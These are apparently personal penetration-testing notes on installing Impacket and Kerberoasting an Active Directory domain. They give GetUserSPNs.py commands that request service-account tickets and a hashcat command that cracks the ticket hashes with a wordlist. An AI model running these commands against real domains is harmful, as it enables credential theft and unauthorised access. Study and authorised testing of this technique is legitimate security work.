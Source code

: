 # Impacket 

Note: This doc should be placed in an eventual AD folder, once I get that far.
## Install

install impacket with:
`pipenv install impacket`
this will create a virtualenv in `/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}`
you can then:
```
export IMPACKET_SCRIPTS=$(pipenv --venv)/bin
```
Now, you can run impacket scripts with:
```
python3  ${IMPACKET_SCRIPTS}/${script} ...
```

## Kerberoasting

check for SPN accounts:
```
python3 ${IMPACKET_SCRIPTS}/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found user:

```
python3 $IMPACKET_SCRIPTS/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 


```

Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```



